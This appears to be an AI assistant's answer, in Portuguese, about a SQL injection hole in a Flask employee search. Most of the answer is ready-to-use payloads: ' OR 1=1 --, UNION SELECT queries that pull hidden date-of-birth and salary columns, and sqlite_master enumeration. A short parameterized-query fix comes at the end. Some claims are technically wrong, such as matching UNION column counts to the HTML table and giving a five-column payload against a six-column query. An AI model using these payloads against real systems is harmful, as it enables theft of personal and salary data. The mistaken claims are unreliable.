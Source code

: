 O código em **Flask + SQLAlchemy** que você mostrou **é vulnerável a SQL Injection**, porque ele monta a query assim:

```python
results = conn.execute(
    "SELECT * FROM Employee WHERE name LIKE '%" + name + "%'"
).fetchall()
```

📌 O valor da variável `name` **vem diretamente do input do usuário (`request.form`)** e **é concatenado na query sem qualquer sanitização**.

---

### 🔓 **Como explorar a vulnerabilidade para obter todos os dados**

Se você enviar no campo **search**:

```
' OR 1=1 --
```

A query final ficará assim:

```sql
SELECT * FROM Employee WHERE name LIKE '%' OR 1=1 --%'
```

➡️ O `OR 1=1` sempre é verdadeiro, e `--` comenta o resto da query.
✅ Isso **retornará todos os registros da tabela Employee**.

---

### 🔓 **Como listar colunas específicas**

Como você já sabe o nome da tabela (`Employee`) e as colunas (`id, name, email, phone, dob, salary`), pode usar um **payload com UNION SELECT**, por exemplo:

```
' UNION SELECT id, name, email, phone, dob, salary FROM Employee --
```

Isso **forçará a query a retornar todos os dados**, independentemente do filtro original.

---

### 🔓 **Como descobrir informações adicionais (caso não saiba os nomes)**

Você pode tentar **enumerar a estrutura do banco SQLite**, usando tabelas internas como `sqlite_master`.
Por exemplo:

```
' UNION SELECT 1, name, sql, 4, 5, 6 FROM sqlite_master WHERE type='table' --
```

➡️ Isso retorna os nomes e definições das tabelas do banco.

Depois, é possível **listar colunas** de uma tabela específica:

```
' UNION SELECT 1, name, sql, 4, 5, 6 FROM sqlite_master WHERE type='table' AND name='Employee' --
```

O HTML só mostra **name, email e phone**, e oculta (`[redacted]`) o **dob** e **salary**.

Mas o banco contém **todas as colunas**, e como a query no código é:

```python
results = conn.execute("SELECT * FROM Employee WHERE name LIKE '%" + name + "%'").fetchall()
```

📌 **Isso significa que a aplicação realmente busca TODAS as colunas (`SELECT *`)**, mas o template HTML só exibe algumas.

---

### ✅ **Como listar TODAS as colunas no HTML**

Basta alterar o template `employees.html` e adicionar as colunas ocultas:

```html
{% for emp in employees %}
  <tr>
    <td>{{ emp.id }}</td>
    <td>{{ emp.name }}</td>
    <td>{{ emp.email }}</td>
    <td>{{ emp.phone }}</td>
    <td>{{ emp.dob }}</td>    <!-- Antes estava [redacted] -->
    <td>{{ emp.salary }}</td> <!-- Antes estava [redacted] -->
  </tr>
{% endfor %}
```

---

### ✅ **Como ver todas as colunas via SQL Injection (sem alterar o código)**

Como a query concatena a entrada, basta enviar um payload que **não dependa do LIKE**, por exemplo:

```
' OR 1=1 --
```

Isso retorna **todas as linhas** com **todas as colunas** (mesmo que o HTML não exiba tudo, a resposta contém tudo no objeto `employees`).

Se você quiser **forçar a aplicação a retornar apenas algumas colunas específicas**, pode usar:

```
' UNION SELECT id, name, salary, salary, salary, salary FROM Employee --
```

Mas cuidado: o número de colunas do `UNION` deve ser igual ao número de colunas esperadas no HTML.

Se o HTML espera **5 colunas**, você pode repetir algumas:

```
' UNION SELECT name, email, phone, dob, salary FROM Employee --
```


### ⚠ **Por que isso acontece?**

* O código **não usa parâmetros seguros** (`?` ou bind params).
* Como `conn.execute()` está recebendo **string concatenada**, qualquer valor passado vira parte da query.

---

### ✅ **Como corrigir**

A forma correta seria usar parâmetros:

```python
results = conn.execute(
    "SELECT * FROM Employee WHERE name LIKE ?",
    ('%' + name + '%',)
).fetchall()
```

Ou, ainda melhor, usar o **Query Builder do SQLAlchemy**:

```python
results = db.session.query(Employee).filter(Employee.name.like(f"%{name}%")).all()
```

---



